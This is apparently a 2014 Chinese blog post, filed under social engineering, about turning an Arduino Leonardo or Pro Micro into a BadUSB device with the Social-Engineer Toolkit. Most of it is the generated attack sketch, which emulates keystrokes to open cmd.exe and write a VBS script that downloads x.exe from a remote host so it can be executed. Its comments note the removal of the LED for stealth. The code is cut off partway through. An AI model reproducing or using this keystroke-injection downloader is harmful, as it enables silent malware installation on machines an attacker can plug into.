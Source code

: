```yaml
---
id: 39
title: 将简易的Teensy脚本刷入Arduino
date: 2014-12-15T17:55:55+08:00
author: xm1994
layout: post
guid: http://www.summershrimp.com/?p=39
permalink: '/2014/12/%e5%b0%86%e7%ae%80%e6%98%93%e7%9a%84teensy%e8%84%9a%e6%9c%ac%e5%88%b7%e5%85%a5arduino/'
duoshuo_thread_id:
  - "1182844713556770819"
categories:
  - 社会工程
---
```

首先，你需要有个Arduino Leonardo或者SparkFun Pro Micro

[<img class="alignnone size-medium wp-image-41" src="https://www.summershrimp.com/wp-content/uploads/2014/12/pro-micro1-300x244.png" alt="pro micro" width="300" height="244" srcset="https://www.summershrimp.com/wp-content/uploads/2014/12/pro-micro1-300x244.png 300w, https://www.summershrimp.com/wp-content/uploads/2014/12/pro-micro1.png 392w" sizes="(max-width: 300px) 100vw, 300px" />](https://www.summershrimp.com/wp-content/uploads/2014/12/pro-micro1.png)

[<img class="alignnone size-medium wp-image-42" src="https://www.summershrimp.com/wp-content/uploads/2014/12/leonardo-298x300.png" alt="Leonardo" width="298" height="300" srcset="https://www.summershrimp.com/wp-content/uploads/2014/12/leonardo-298x300.png 298w, https://www.summershrimp.com/wp-content/uploads/2014/12/leonardo-150x150.png 150w, https://www.summershrimp.com/wp-content/uploads/2014/12/leonardo.png 339w" sizes="(max-width: 298px) 100vw, 298px" />](https://www.summershrimp.com/wp-content/uploads/2014/12/leonardo.png)

&nbsp;

然后，你需要kali的Social-Engineer Toolkit来生成几个脚本

<pre class="lang:sh decode:true" title="Run Social-Engineer Toolkit"># setoolkit</pre>

如下选择

<pre>1) Social-Engineering Attacks
      6) Arduino-Based Attack Vector
          2) WSCRIPT HTTP GET MSF Payload
</pre>

这个选择会生成一个模拟键盘构造vbs脚本从服务器上下载x.exe然后执行的BadUSB脚本。再输入一些必要的信息后，就会在~/.set/reports/ 目录下面生成arduino的程序。

<pre class="lang:c++ decode:true" title="teensy_2014-12-15 04:44:02.481592.pde">//
// Social-Engineer Toolkit Teensy Attack Vector
// Written by: Dave Kennedy (ReL1K) and Josh Kelley (WinFaNG)
//
// Special thanks to: Irongeek
// Improved and adapted by Peter Österberg
//
// 2011-02-28 padzero@gmail.com
// * Added "ALT code" print functions (ascii_*): Fixed payload execution on non-english keymap targets
// * Removed blinking LED: Improved stealth *woo*
//

int myKeyBreak = 50;

void setup() {
  delay(10000);
  omg("cmd.exe");
  delay(500);
  ascii_println("del x.exe");
  delay(myKeyBreak);
  ascii_println("echo strFileURL = "http://1.1.1.1/x.exe" &gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo strHDLocation = "x.exe" &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objXMLHTTP.open "GET", strFileURL, false &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objXMLHTTP.send() &gt;&gt; omg.vbs");